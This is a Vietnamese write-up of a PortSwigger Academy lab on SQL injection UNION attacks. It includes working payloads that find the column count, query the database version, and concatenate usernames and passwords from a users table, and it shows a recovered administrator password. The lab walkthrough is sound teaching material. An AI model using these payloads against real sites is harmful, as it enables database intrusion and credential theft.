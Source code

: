 # Write-up: SQL Injection UNION Attack, Retrieving Multiple Values in a Single Column

### Tổng quan 
Write-up này ghi lại quá trình giải bài lab SQL Injection trên PortSwigger Web Security Academy tập trung vào việc khai thác SQL injection bằng tấn công UNION để lấy username và password từ bảng users 

### Mục tiêu
Trích xuất tất cả username và password sau đó đăng nhập với tài khoản administrator 

### Công cụ sử dụng
- Burpsuite Community
- FireFox Browser 

### Các bước thực hiện 
1. **Thu thập thông tin (Recon)**
- Kiểm tra tham số `category` trong URL (`filter?category=Gifts`) và thêm `'` để kích hoạt lỗi SQL:
   - **Kết quả**: Lỗi SQL xuất hiện, xác nhận lỗ hổng.
   ![1](./images/sql_error.png)

- Sử dụng BurpSuite để kiểm tra số cột với payload:
    ```
    filter?category=Gifts'+UNION+SELECT+NULL,NULL--
    ```
  - **Kết quả**: Xác định 2 cột.
- Xác nhận Cột hiển thị chuỗi bằng:
  ```
  Payload:
  filter?category=Gifts'+UNION+SELECT+'test',NULL--

  ->Internal Server Error
  ```

  ```
  Payload:
  filter?category=Gifts'+UNION+SELECT+NULL,'test'--

  -> Cột 2 hiển thị kết quả trả về
  ```
2. **Tạo Payload**
- Kiểm tra version của web để xác định kiểu String concatenation
    ```
    filter?category=Gifts'+UNION+SELECT+NULL,+version()--

    -> PostgreSQL 12.22 (Ubuntu 12.22-0ubuntu0.20.04.2) on x86_64-pc-linux-gnu, compiled by gcc (Ubuntu 9.4.0-1ubuntu1~20.04.2) 9.4.0, 64-bit
    ```

- Tạo payload UNION để nối username và password:
    ```
    'UNION SELECT NULL, username || '~' || password FROM users--
    ```

1. **Khai thác (Exploitation)**
- Gửi payload qua Burp Repeater:
    ```
    GET /filter?category=Gifts'UNION+SELECT+NULL,+username+||+'~'+||+password+FROM+users-- HTTP/2
    ```
    - **Kết quả**: Lấy được `administrator~g5qqbext2s584y1e0i1g`
    ![1](./images/result.png)

- Đăng nhập lại `/login` với thông tin trên, hoàn thành lab.
  ![1](./images/login_success.png)

### Bài học rút ra
- Nâng cao kĩ năng UNION để trích xuất dữ liệu đa cột.
- Tối ưu hóa BurpSuite trong khai thác SQLi

### Tài liệu tham khảo
- PortSwigger: SQL Injection cheat sheet
- PortSwigger: UNION Attacks

### Kết luận
Lab này giúp tôi hoàn thiện kỹ năng SQL injection và sử dụng Burp Suite. Xem portfolio đầy đủ tại https://github.com/Furu2805/Lab_PortSwigger 

*Viết bởi Toàn Lương, Tháng 5/2025*.